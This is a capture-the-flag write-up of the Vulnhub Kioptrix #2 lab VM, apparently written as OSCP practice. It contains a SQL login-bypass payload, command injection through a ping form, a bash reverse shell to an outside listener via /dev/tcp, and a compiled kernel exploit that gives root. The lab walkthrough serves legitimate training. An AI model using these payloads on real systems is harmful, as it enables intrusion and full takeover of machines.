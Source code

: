 ```yaml
---
layout: single_c
title:  "Vulnhub - Kioptrix #2 Writeup"
date:   2020-01-29 10:43:16 +0530
categories: OSCP
tags: Vulnhub
classes: wide
---
```

### [Vulnhub - Kioptrix #2](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)

## Enumeration

#### Nmap
```bash
Nmap scan report for 192.168.71.129
Host is up, received arp-response (0.0056s latency).
Scanned at 2020-01-19 12:22:25 IST for 119s
Not shown: 994 closed ports
Reason: 994 resets
PORT     STATE SERVICE    REASON         VERSION
22/tcp   open  ssh        syn-ack ttl 64 OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|   1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAIEA4j5XFFw9Km2yphjpu1gzDBglGSpMxtR8zOvpH9gUbOMXXbCQeXgOK3rs4cs/  
j75G54jALm99Ky7tgToNaEuxmQmwnpYk9bntoDu9SkiT/hPZdOwq40yrfWIHzlUNWTpY3okTdf/YNUAdl4NOBOYbf0x/dsAdHHqSWnvZmruFA6M=
|_sshv1: Server supports SSHv1
80/tcp   open  http       syn-ack ttl 64 Apache httpd 2.0.52 ((CentOS))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind    syn-ack ttl 64 2 (RPC #100000)
443/tcp  open  ssl/https? syn-ack ttl 64
|_ssl-date: 2020-01-19T04:44:13+00:00; -2h09m12s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|_    SSL2_DES_64_CBC_WITH_MD5
631/tcp  open  ipp        syn-ack ttl 64 CUPS 1.1
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS POST PUT
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
3306/tcp open  mysql      syn-ack ttl 64 MySQL (unauthorized)
MAC Address: 00:0C:29:48:8C:63 (VMware)

Host script results:
|_clock-skew: -2h09m12s
```

That's a lot of attack surface to cover. Let's start with the web application on port 80.

Looks like a login page for administrators. We can try `sql` injection or `sql` login bypass.  
We can bypass the login using `' or 1#` or `' or 1-- `

#### MySQL Login code (an be found after getting a shell)
```sql
$query = "SELECT * FROM users WHERE username = '$username' AND password='$password'";
```
We can see that we can escape from the query using a `'` and then return a true value using `or 1` and then comment out the rest using `#` or `-- `

## Low Privilege Shell
Login has been successfully bypassed and we are presented with another page, asking for an ip address to ping.  
We can inject any command here by appending a `;` followed by our code.  
Unfortunately there was no `netcat` installed. But we can get reverse shell using `bash`

```bash
bash -i >& /dev/tcp/192.168.71.128/4444 0>&1
```
Don't forget to start a `nc` listener.

```bash
root@kali:~/Desktop/vulnhub/kioptix2# nc -lvp 4444
listening on [any] 4444 ...
192.168.71.129: inverse host lookup failed: Unknown host
connect to [192.168.71.128] from (UNKNOWN) [192.168.71.129] 49917
bash: no job control in this shell
bash-3.00$ id
uid=48(apache) gid=48(apache) groups=48(apache)
```
And we have a shell.

## Low Priv Shell Enumeration

So I spent a good amount of time snooping around, looking for privilege escalation methods but to no avail.
I finally started looking for kernel exploits.
Usually it’s always a good practice to avoid kernel exploitation as this opens up many dangers such as crashing or corrupting the machine. So always make sure that  
you have exhausted all your options before trying out kernel exploits.

#### Linux_Exploit_Suggester.pl
We can use [Linux_Exploit_Suggester.pl](https://github.com/InteliSecureLabs/Linux_Exploit_Suggester) to find possible kernel exploits.

```bash
bash-3.00$ perl Linux_Exploit_Suggester.pl

Kernel local: 2.6.9

Searching among 65 exploits...

Possible Exploits:
[+] american-sign-language
   CVE-2010-4347
   Source: http://www.securityfocus.com/bid/45408/
[+] exp.sh
[+] half_nelson
   Alt: econet    CVE-2010-3848
   Source: http://www.exploit-db.com/exploits/6851
[+] half_nelson1
   Alt: econet    CVE-2010-3848
   Source: http://www.exploit-db.com/exploits/17787/
[+] half_nelson2
   Alt: econet    CVE-2010-3850
   Source: http://www.exploit-db.com/exploits/17787/
[+] half_nelson3
   Alt: econet    CVE-2010-4073
   Source: http://www.exploit-db.com/exploits/17787/
[+] krad
[+] krad3
   Source: http://exploit-db.com/exploits/1397
[+] pktcdvd
   CVE-2010-3437
   Source: http://www.exploit-db.com/exploits/15150/
[+] py2
[+] sock_sendpage
   Alt: wunderbar_emporium    CVE-2009-2692
   Source: http://www.exploit-db.com/exploits/9435
[+] sock_sendpage2
   Alt: proto_ops    CVE-2009-2692
   Source: http://www.exploit-db.com/exploits/9436
[+] udp_sendmsg_32bit
   CVE-2009-2698
   Source: http://downloads.securityfocus.com/vulnerabilities/exploits/36108.c
[+] video4linux
   CVE-2010-3081
   Source: http://www.exploit-db.com/exploits/15024/
```

I had to filter through these exploits and finally found [sock_sendpage()](https://www.exploit-db.com/exploits/9545)

## Root Shell
Transfer the code to the machine(I used `python` http server and `wget`), compile it and run.

```bash
bash-3.00$ gcc -Wall sock.c
bash-3.00$ ./a.out
sh: no job control in this shell
sh-3.00# id
uid=0(root) gid=0(root) groups=48(apache)
```
And we are root!
